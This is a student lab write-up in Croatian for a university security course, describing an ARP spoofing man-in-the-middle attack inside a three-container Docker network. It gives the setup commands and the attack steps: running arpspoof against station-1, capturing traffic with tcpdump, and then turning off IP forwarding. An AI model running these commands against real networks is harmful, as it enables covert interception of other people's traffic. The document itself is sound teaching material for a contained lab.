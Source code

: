 # Laboratorijske vježbe (SRP)

## 1. laboratorijske vježbe

12.10.2021.

## Zadatak

Realizirati man in the middle napad iskorištavanjem ranjivosti ARP protokola.

Student će testirati napad u virtualiziranoj Docker mreži (Docker container networking) koju čine 3 virtualizirana Docker računala (eng. container): 

1. station-1 
2. station-2
3. evil-station (napadač)

## Pokretanje mreže na lokalnom računalu

**Kloniranje repozitorija**

$ git clone https://github.com/mcagalj/SRP-2021-22

**Ulazak u novi direktorij**

$ cd SRP-2021-22/arp-spoofing/

- u direktoriju su se nalazile već gotove skripte start.sh i stop.sh za pokretanje i zaustavljanje virtualiziranog mrežnog scenarija što možemo provjeriti naredbom code .

## Naredbe i alati u Linuxu

**Pokretanje i zaustavljanje virtualiziranog mrežnog scenarija**

$ ./start.sh                                                                                                                                                      

$ ./stop.sh

**Pokretanje shella**

$ docker ps exec -it sh

**Provjera informacija (IP adrese i adrese mrežnog uređaja)**

$ ifconfig -a

- uz pomoć dobivenih informacija pratimo jesmo li uspješno izvršili napad

**Provjera nalazi li se station-2 na istoj mreži**

$ ping station-2

**Pokretanje shella u drugom kontejneru**

$ docker exec -it station-2 sh

**Ostvarivanje komunikacije između station-1 i station-2** 

$ netcat -lp 9000

- za ovakav način komunikacije treba znati IP adresu i port

$ netcat station-1 9000

**Pokretanje shella u trećem kontejneru (napadača)**

$ docker exec -it evil-station sh

## Napad na žrtvu

**Pokretanje napada**

$ arpspoof -t station-1 station-2

$ tcpdump

- sada pratimo razgovor između station-1 i station-2 bez njihova znanja

**Završetak napada**

$ echo 0 > /proc/sys/net/ipv4/ip_forward